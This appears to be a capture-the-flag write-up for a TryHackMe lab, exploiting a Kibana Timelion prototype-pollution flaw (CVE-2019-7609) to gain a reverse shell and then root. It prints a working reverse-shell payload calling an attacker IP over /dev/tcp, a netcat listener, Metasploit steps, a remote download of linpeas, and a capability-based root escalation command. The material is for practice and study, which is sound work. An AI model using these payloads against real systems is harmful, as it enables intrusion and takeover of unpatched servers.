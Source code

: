 Before you begin, always add your ip address to hosts file so as to avoid burden especially ip address related operations, while you are actively pentesting.

How to apply ?

![](cf3a2e5dd2d551b8640a2d493f3ee36f.png)

## Reconnaissance
 nmap payload:
└─# sudo nmap -sV -sC -p- kiba.thm

Unusual port number:

![](e8a15745496651c4b5b275912f8c037d.png)

![](c449e8ca809ba166e891781ff3d6294a.png)

What is Kibana ?
![](f63b01787e995edea417abe07af45384.png)

Suspicious path:
http://kiba.thm:5601/app/timelion#



## Exploitation

Useful resources about vulnerability:
- https://github.com/LandGrey/CVE-2019-7609
- https://github.com/mpgn/CVE-2019-7609

For the exploitation phase we have two manual ways to compromise the target. Besides, you can also use automated approach by using `Metasploit Framework`

- Manual exploitation on `Timelion` data visualiser script executor.
- Customized script execution.
- Metasploit Framework: `linux/http/kibana_timelion_prototype_pollution_rce` module.

### Manual Exploitation - 1

After a couple of research process, I discovered the vulnerability itself which is **Prototype Pollusion** on **Timelion** feature of the **Kibana** - ElasticSearch supported and opensource data visualization platform.

![](729ac78be8e9db4f7c4fed3c058becbc.png)


Initial compromise:
- Used Payload:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.11.69.113/1337 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

- Netcat listener:
```
nc -lvnp 1337
```


Reverse Shell PoC:
![](c01fde4a727b62e56d674dae6346ddbf.png)



### Manual Exploitation - 2

Although I have taken reverse shell connection properly, trying a python script where I discovered the vulnerability that trigger RCE automatically.

```
# python2 CVE-2019-7609-kibana-rce.py -h

usage: CVE-2019-7609-kibana-rce.py [-h] [-u URL] [-host REMOTE_HOST]
                                   [-port REMOTE_PORT] [--shell]

optional arguments:
  -h, --help         show this help message and exit
  -u URL             such as: http://127.0.0.1:5601
  -host REMOTE_HOST  reverse shell remote host: such as: 1.1.1.1
  -port REMOTE_PORT  reverse shell remote port: such as: 8888
  --shell            reverse shell after verify

```

I will execute a payload below:

```
python2 CVE-2019-7609-kibana-rce.py -u http://10.10.163.241:5601 -host 10.11.69.113 -port 1234 --shell
```

However, it did not call back on my machine. After on my first shot, I got break-time and turn on hybrid mode on my system. Therefore, I am going to refresh the machine.

![](d24a174170333ddd84070e2414595cc2.png)

![](eaaad08b9760b6b943ea9af458e1c8cd.png)


Now it works ! After I restarted the machine, I was able to get my reverse shell !

![](./attachment/11df5f7c7c9ac5dfcab4d51099732301.png)


### Automated Exploitation

`Metasploit Framework` offers only three modules for **Kibana** platform. However, first approach was suitable for me. You can reach out the related module in below.

![](c59ebbaa12eec0413d0a11bff25962e1.png)

To interact with correlated module:

```
use 0
```

Now you are ready to configure module specific settings.

In order to show options required by the module, use the below command:

```
show options
```

![](c53a369d6204c98af36def3009c7b52d.png)

Modifying the `RHOSTS`, `TARGETURI` and `RPORT` is enough to execute our exploit.

To add necessary information to script settings:

```
set [needed attribute]

Example: set RHOSTS or set RPORT
```

For this scenario, do not forget to modify *RHOSTS*, *LHOST* and *LPORT*.

![](a20b149b5028537d238919c11e7979b7.png)

Since I forgot to give `LHOST` and `LPORT` option, I was not able to run the script appropriately. That's why, do not forget to `set` them.

As you can see below, the script was successfully run:

![[Screen Shot 2024-10-04 at 15.27.38.png]]

Initially, there will not be any output prompted from target ,so do not worry about it. Just check whether you correctly get reverse shell connection or not.

To achieve this just run `ls` command.


## Post-Exploitation

I have tried to run `linpeas.sh` on `tmp` folder which allows users to run many scripts here ,but in this scenario it does not work. Therefore, I uploaded my files through `/home/kiba`. Then it worked !

1. Deploy python server from local
```
python -m http.server 3131
```

2. Download `linpeas.sh` from victim machine
```
curl http://10.11.69.113:3131/linpeas.sh -o linpeas.sh
```

3. Give executable permission to `linpeas.sh`
```
chmod +x linpeas.sh
```

4. Examine carefully  the `linpeas` output:

- I found really useful evidence to escalate our privileges

- The crontab shows that the user Kiba has a cron job scheduled to run every minute. This job navigates to the directory /home/kiba/kibana/bin and runs the bash kibana command.

![](TryHackMe/Kibana/images/1.PNG)

![](sudo.png)

We have a possible privilege escalation vector known as Sudo Privileges:

Since Kiba is in the sudo group, check what commands you can run with sudo -l.

It did not work in this scenario:

```
  whoami
  kiba
  sudo -l
  sudo: no tty present and no askpass program specified
```

Furthermore, we have a binary named /home/kiba/.hackmeplease/python3, which has the capability cap_setuid+ep, which means that this Python binary can change user IDs (setuid). This is a potential privilege escalation vector since it allows the Python process to execute with elevated privileges.

![](TryHackMe/Kibana/images/2.PNG)

Let me pay attention on .hackmeplease :D

![](TryHackMe/Kibana/images/3.PNG)


Since we have the python3 binary and its vulnerability. In binary exploitation, we trust GFTOBins to escalate privileges:

https://gtfobins.github.io/gtfobins/python/


- On GFTOBins, we have many binaries available to elevate our privileges. However, today, we should look for Python binary. After a deep dive attempt, I recognized that I was dealing with cap_setuid+ep capability. Therefore, using this payload to escalate my privileges will be suitable.


![alt text](TryHackMe/Kibana/images/4.PNG)

- You can execute following command to be `root` on target.

```
./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

## Conclusion

All in all, this writeup demonstrates how different methodologies can be used at once. Through reconnaissance to post-exploitation, I provided 3 strong pathway you to understand the idea behind the scene. The detailed steps, ranging from mapping out unusual ports (Kibana) to `exploiting vulnerability` and `escalating privilege`, show the significance of understanding each phase deeply. It's crucial not only to follow the steps meticulously but also to apply knowledge practically and adapt to challenges as they arise. Always remember, careful planning and paying attention to small details, such as setting up the Metasploit console or configuring script parameters correctly, can save you a lot of trouble during the engagement.

May The Pentest Be With You ! !
